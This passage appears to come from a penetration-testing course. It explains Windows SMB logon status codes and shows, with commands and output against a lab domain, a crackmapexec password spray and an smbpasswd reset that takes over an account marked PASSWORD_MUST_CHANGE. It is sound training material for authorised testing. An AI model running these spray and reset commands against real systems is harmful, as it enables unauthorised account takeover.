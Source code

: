 |                                   |
| --------------------------------- |
| STATUS\_ACCOUNT\_DISABLED         |
| STATUS\_ACCOUNT\_EXPIRED          |
| STATUS\_ACCOUNT\_RESTRICTION      |
| STATUS\_INVALID\_LOGON\_HOURS     |
| STATUS\_INVALID\_WORKSTATION      |
| STATUS\_LOGON\_TYPE\_NOT\_GRANTED |
| STATUS\_PASSWORD\_EXPIRED         |
| STATUS\_PASSWORD\_MUST\_CHANGE    |
| STATUS\_ACCESS\_DENIED            |

Depending on the reason, for example, `STATUS_INVALID_LOGON_HOURS` or `STATUS_INVALID_WORKSTATION` may be a good idea to try another workstation or another time. In the case of the message `STATUS_PASSWORD_MUST_CHANGE`, we can change the user's password using [Impacket smbpasswd](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbpasswd.py) like: `smbpasswd -r domain -U user`.

### **Changing Password for an Account with Status PASSWORD\_MUST\_CHANGE**

```shell-session
$ crackmapexec smb 10.129.203.121 -u julio peter -p Inlanefreight01!

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\julio:Inlanefreight01! STATUS_LOGON_FAILURE 
SMB         10.129.203.121  445    DC01             [-] inlanefreight.htb\peter:Inlanefreight01! STATUS_PASSWORD_MUST_CHANGE
```

Here we can change the password for the target user. During a penetration test, we want to be careful with changing account passwords and always note any account changes in our report appendices. If the target account has not logged in for a long time, it is likely safer to change the password than for an account that is actively in use. Typically an organization will disable unused accounts, but from time to time, we will come across forgotten accounts whose passwords we can change to move further toward our assessment goal. If in doubt, always check with the customer before making any changes.

```shell-session
$ smbpasswd -r 10.129.203.121 -U peter

Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user peter
```
